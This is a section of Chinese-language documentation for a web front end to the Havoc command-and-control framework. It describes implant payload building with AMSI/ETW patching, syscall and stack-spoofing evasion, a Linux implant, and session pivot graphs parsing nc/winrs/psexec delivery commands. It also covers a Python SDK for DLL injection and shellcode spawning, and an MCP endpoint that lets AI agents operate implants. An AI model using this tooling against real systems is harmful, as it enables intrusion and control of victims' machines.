


### 4.6 战利品

`screenshot` 截图落盘 `data/loot/<demon>/`，缩略图由 Pillow 生成；点击看大图；重启后自动恢复。

截图行支持 **双击 / 右键「下载」** 保存原始 PNG：后端 `GET /api/loot/{id}?download=1`
返回 `Content-Disposition: attachment`，中文文件名通过 RFC 5987 `filename*` 传递，
`/ \ : * ? " < > |` 等字符会被替换，空名回退 `screenshot-<id>.png`；预览点击行为不变。
「下载」页签的普通文件下载同样走该接口。



### 4.7 团队服务器

连接信息、会话/监听器统计、重连次数、teamserver 下发的 Demon profile。



### 4.8 载荷生成（Gate Stageless）

`攻击 → 生成载荷` 打开与客户端一致的表单：

- 监听器（仅在线）、架构 x64/x86、格式 Windows Exe/Dll/Shellcode/Service Exe、**Linux Exe**；
- Sleep/Jitter、间接系统调用、栈欺骗、Sleep 技术/Jmp Gadget、Proxy Loading、Amsi/Etw Patch、
  注入 Alloc/Execute/Spawn64/Spawn32、服务名；
- 默认值取自 teamserver profile；
- 构建日志实时滚动（teamserver 的 compiler 输出），完成后显示下载链接；
- 产物保存到 `webui/data/payloads/<build-id>/`，网关重启后仍可下载。

实测：x64 Windows Exe 构建约 60 秒，产物 99,328 字节，`file` 识别为 PE32+ x86-64。

**Linux Exe**（2026-11-10 新增）：格式选 `Linux Exe` 时，表单只保留
Sleep/Jitter（其余 Windows 注入项自动隐藏），teamserver 用 Go 工具链静态编译
`payloads/DemonLinux`，产物 `demon.x64.elf` / `demon.x86.elf`（约 6 MB），
保存到 `webui/data/payloads/<id>/` 并自动 `chmod 755`。

已支持命令：`shell`、`pwd/cd/ls/dir/cat/rm/mkdir/cp/mv/download/upload`、
`proc list/grep/kill/create`、`checkin`、`sleep`、`exit`。
`shell` 在 Linux 会话自动改用 `/bin/sh -c`（不再拼 `cmd.exe`/`chcp`），
`powershell` 会直接提示不支持。详见
[`havoc-src/payloads/DemonLinux/README.md`](../havoc-src/payloads/DemonLinux/README.md)。





### 4.9 会话图

`视图 → 会话视图 → 拓扑图`：与 Qt 客户端 `SessionGraph.cc` 同构：

- TEAMSERVER 根节点使用防火墙图标，会话节点使用 90×90 系统图标（客户端 1224×1224 原图，死亡/断开的枢轴灰度化）；
- 树从左到右生长（层级 220px、兄弟 120px），直属会话绿色实线、枢轴蓝色实线、断开的枢轴红色实线，
  箭头方向与客户端一致；
- 节点文字为 `ID @ 进程\PID` 与 `[计算机\用户]`，点击进入控制台，右键打开会话菜单；
- 会话顺序使用 teamserver 到达顺序（与客户端会话表一致），枢轴 `disconnect/reconnect` 会实时更新拓扑；
- **拓扑边语义**：绿/蓝/红实线来自 teamserver 的 `PivotParent`（SMB pivot 等 agent 级父子关系）。
  通过 `shell`/`winrs`/`ssh` 投递出来的新会话不会写 `PivotParent`，因此默认是 TEAMSERVER 的直属节点，
  这是 Havoc 的既有语义，不是 WebUI 的渲染 bug；
- **投递链虚线**：webui 额外解析 `/slt`、`/swt` 投递命令（nc/winrs/ssh/psexec 形态）并记录目标 IP，
  新会话上线后按 IP + 300s 时间窗自动写入 `delivery_parent`，在节点右侧画琥珀色虚线；
  也可右键 `投递链 → 设置投递父会话` 手动修正/清除。只影响 Web 视图，不修改 teamserver/Qt，
  `视图 → 投递链虚线` 可开关；会话表 ID 后的 `↳` 表示该会话有投递父；
  同一主机自投递（命令里没有目标 IP，如直接 `certutil .../swt`）无法自动推断目标，右键手动指定即可；
- **缩放/平移**：滚轮以光标为锚缩放（0.3–3），拖动背景平移，工具栏 `−/+/适应` 与
  `+ / - / 0` 快捷键缩放/复位；视图状态保存在 `localStorage`（`havoc.graphView.v1`），
  会话刷新/页面刷新后保持。缩放使用 SVG `transform`，节点点击/双击/右键命中不受影响。



> 截图为拖动分隔条放大主视图后的完整树；默认布局下会话较多时可用滚轮缩放或拖动背景平移。
> 会话节点本身暂不支持拖动（客户端 `ItemIsMovable` 的节点拖拽未在本批实现）。

### 4.10 扩展商店

`攻击 → 扩展商店`：拉取 `p4p1/havoc-store` 目录（GitHub 不可用时自动走 `store.mirror`，
再失败则回退到 `havoc-src/client/Modules` 本地目录）。支持：

- 浏览名称/作者/描述/分类/链接；
- 安装 gist 模块或 GitHub 仓库（安全解压到 `data/extensions/`，限制文件/大小，防路径穿越）；
- 安装后出现在「脚本」列表；图形化（havocui）扩展可安装但运行仍需 Qt 客户端（界面有提示）。



### 4.11 Python 脚本与 Python 控制台

**常驻宿主**（`pysdk/host.py`）：网关懒启动一个 Python 进程，控制台与所有脚本共享同一个解释器
（与 Qt 客户端 `PythonScript.cc` 一致）。JSONL over stdin/stdout 支持 `exec / load / reload /
unload / invoke / event / ping`；控制台设置的全局变量在脚本命令里可见，脚本写入的全局变量也会
回传给控制台。宿主崩溃后下一条命令会自动重启（并清理已失效的控制台注册命令）。

**SDK**（`pysdk/havoc.py`，兼容客户端 API）：

- `Demon(demonID)`：`DemonID/User/Computer/Domain/OS/OSArch/ProcessName/ProcessID/ProcessArch/
  ExternalIP/InternalIP/Listener/MagicValue/Elevated/SleepDelay/SleepJitter/Marked`；
- `ConsoleWrite(type, msg)`、`Command(task_id, line)`、`CommandGetOutput(...)`、`Shell`、`Sleep`、
  `Checkin`、`Pwd`、`Ls`、`Cd`、`Cat`、`Download`、`Screenshot`、`Ps`；
- `InlineExecute(...)`（COFF/BOF）、`InlineExecuteGetOutput(callback, ...)`、
  `DllInject(task_id, pid, path, args)`、`DllSpawn(...)`、`DotnetInlineExecute(task_id, path, args)`；
- `ProcessCreate(task_id, app, cmdline, suspended, piped, verbose)`：按 **teamserver** 字段顺序
  `state;verbose;piped;app;b64(cmdline)` 构造（客户端 PyDemonClass 的拼接顺序与 teamserver
  不一致，Web 侧已修正）；
- `ShellcodeSpawn(task_id, technique, arch, path, args)`：`args` 为 bytes，按客户端方式 base64 进
  `Arguments`；
- `LoadScript(path)`（网关白名单内的路径，失败返回 False、越界抛 `HavocError`）、
  `GetDemons()`、`GetListeners()`、`GetAgents()`（本批固定 `["Demon"]`）、
  `GeneratePayload(callback, agent, listener, arch, format, config)`：轮询构建并回调 **base64 字符串**，
  忙 409/超时会抛明确异常；
- `RegisterCallback(fn)` / `havoc.Event.OnNewSession(fn)`：新会话上线时调用 `fn(agent_id)`；
- `Agent(id)`：元数据 + `ConsoleWrite`；`Command` 依赖第三方命令表，本批明确抛 `NotImplementedError`；
- `RegisterCommand(...)`、`RegisterModule(...)`、`list_sessions()`、`get_session()`、`chat()`。

**脚本页**：列出 `data/extensions` 与内置 `client/Modules`，查看源码；支持 **上传**（仅 `.py`、≤2MB，
落到 `data/extensions/_uploads/`）、**加载 / 重新加载 / 卸载**（行右键同样可用）。
重新加载在 `register.py` 成功后整体替换该脚本的注册，失败保留旧注册；卸载只删除注册并取消
自动加载，**不删除文件**。自动加载列表保存在 `data/scripts.json`，网关启动后异步恢复；
扩展商店安装成功后立即加载并加入自动加载。注册表持久化到 `data/python_commands.json`。

**Python 控制台**：持久 REPL，`Enter` 运行、`Shift+Enter` 换行；跨请求变量保持；可直接
`havoc.RegisterCommand(...)`（立即出现在 `help`/补全中，仅在宿主生命周期内有效，不写盘）。

实测：

- `pyhello`：Python 注册命令 → `ConsoleWrite` + `Command("shell whoami")`，控制台回显 `admin\administrator`；
- `bofenv`（Bofbelt `env.x64.o`）：`InlineExecute` 执行 BOF，输出环境变量；
- `bofenvcb`：`InlineExecuteGetOutput` 回调拿到 `worked=True` 与完整输出；
- `ProcessCreate("/bin/echo", "hello-from-sdk")` 在 Linux 测试会话回显 `hello-from-sdk`；
- Python 控制台 `x=41` → `print(x+1)` → `42`（跨请求）；`len(list_sessions())`、`Demon("22c34f3a")`。




## 5. HTTP / WebSocket 接口

| 方法 | 路径 | 说明 |
| --- | --- | --- |
| POST | `/api/login` / `/api/logout` | 登录 / 退出 |
| GET | `/api/state` | 全量快照 |
| GET | `/api/sessions` / `/api/sessions/{id}` | 会话 |
| GET/POST | `/api/sessions/{id}/command` | 下发命令（含 `help` / `help <cmd>`） |
| GET/POST | `/api/sessions/{id}/files` | 文件缓存 / 列出目录（返回 path + entries） |
| POST | `/api/sessions/{id}/files/mkdir` | 新建目录 `{path}` |
| POST | `/api/sessions/{id}/files/remove` | 删除 `{path, recursive}` |
| POST | `/api/sessions/{id}/files/move` | 重命名/移动 `{from, to, overwrite}` |
| POST | `/api/sessions/{id}/files/copy` | 复制文件或目录 `{from, to, overwrite}` |
| POST | `/api/sessions/{id}/files/write` | 新建/覆盖文本 `{path, content\|content_b64, encoding}` |
| GET | `/api/sessions/{id}/files/read` | 文本预览 `?path=&max=`（默认 1 MiB） |
| GET | `/api/sessions/{id}/files/download` | 下载远端文件 `?path=`（FS download → 附件） |
| POST | `/api/sessions/{id}/files/upload` | 浏览器直传远端目录（multipart：`path` + `file`，≤ 32 MiB） |
| POST | `/api/sessions/{id}/upload` | 控制台用暂存上传（64 MiB，multipart） |
| GET/POST | `/api/sessions/{id}/processes` | 进程缓存 / 请求列表 |
| POST | `/api/sessions/{id}/processes/kill` | 结束进程 |
| POST | `/api/sessions/{id}/mark` | Alive/Dead |
| POST | `/api/sessions/{id}/exit` | 退出会话 `{method: "thread"\|"process"}`（仅 Demon） |
| POST | `/api/sessions/{id}/remove` | 本地移除会话（不向 teamserver 发下线命令） |
| POST | `/api/sessions/{id}/delivery-parent` | 设置/清除 Web 投递链 `{parent}`（空串清除；仅虚线） |
| GET | `/api/help` | `help` 全量表；`?command=&sub=` 查询单条 |
| GET | `/api/commands` | 命令元数据（补全/参数提示） |
| GET/POST/PUT/DELETE | `/api/listeners` | 原生 + 传输 + 服务插件监听器增删改查 |
| GET | `/api/service-listeners` | 服务端插件注册的自定义监听器协议（名称/Agent/Items） |
| POST | `/api/listeners/{name}/start` / `stop` | 传输监听器启停 |
| GET | `/api/listeners/{name}/relay?os=&arch=&listen=` | 编译/下载 Go 中继器 |
| GET | `/api/transports/modes` | 传输模式元数据 |
| GET/POST | `/api/chat` | 聊天 |
| GET | `/api/loot`, `/api/loot/{id}` | 战利品（`?thumb=1` 缩略图；`?download=1` 附件下载） |
| GET/POST | `/api/events` | 事件 |
| POST | `/api/payloads/build` | 生成载荷 |
| GET | `/api/payloads`, `/api/payloads/{id}/download` | 载荷列表/下载 |
| GET | `/api/store` | 商店目录（`?refresh=1`） |
| POST | `/api/store/install` | 安装扩展（成功后自动加载） |
| GET | `/api/scripts`, `/api/script?path=` | 脚本列表（含 `autoload`）/源码 |
| POST | `/api/scripts/load` / `reload` / `unload` | 加载 / 重载 / 卸载脚本（`{path}`） |
| POST | `/api/scripts/upload` | 上传 `.py`（multipart，≤2MB） |
| POST | `/api/python/repl` | Python 控制台执行（常驻宿主） |
| POST | `/api/python/console` / `command` / `inline-execute` / `dll-spawn` / `proc-create` / `register` / `autoload` | SDK 内部接口（X-Python-Token） |
| GET | `/api/python/task` / `bof-result` | SDK 轮询任务 / BOF 回调 |
| POST | `/api/teamserver/disconnect` | 手动断开并暂停自动重连 |
| POST | `/api/reconnect` | 恢复/重连 teamserver |
| GET | `/api/stager/health` / POST `/api/stager/start` | 暂存服务代理 |
| GET | `/api/profile` | teamserver profile |
| GET | `/api/mcp/info` | MCP 端点、协议版本、工具/资源/提示词清单（兼容旧页面） |
| GET | `/api/mcp/status` | MCP 运行态、启动时间/uptime、端点、令牌掩码、能力计数、最近事件 |
| POST | `/api/mcp/start` / `/api/mcp/stop` | 运行时启停 `/mcp`（仅 Web 登录 cookie；写审计） |
| POST | `/api/mcp/port` | 修改 MCP 监听端口 `{port}`，0=复用 WebUI 端口（仅 Web 登录 cookie；写 audit + config） |
| GET | `/api/mcp/token` | 读取完整 MCP 令牌（仅 Web 登录 cookie；写审计） |
| POST | `/api/mcp/token/rotate` | 轮换令牌并清空 MCP 会话（仅 Web 登录 cookie） |
| POST | `/mcp` | MCP Streamable HTTP（`Authorization: Bearer <run/mcp.token>`；69 个工具；停止时 503） |
| GET/DELETE | `/mcp` | 无 SSE 推送（405）/ 结束 MCP 会话；停止时 503 |
| WS | `/ws` | 浏览器实时通道 |

## 6. 目录

```
webui/
├── gateway.py            # aiohttp：鉴权/REST/WS/MCP 挂载/载荷/商店/Python 调度/缩略图
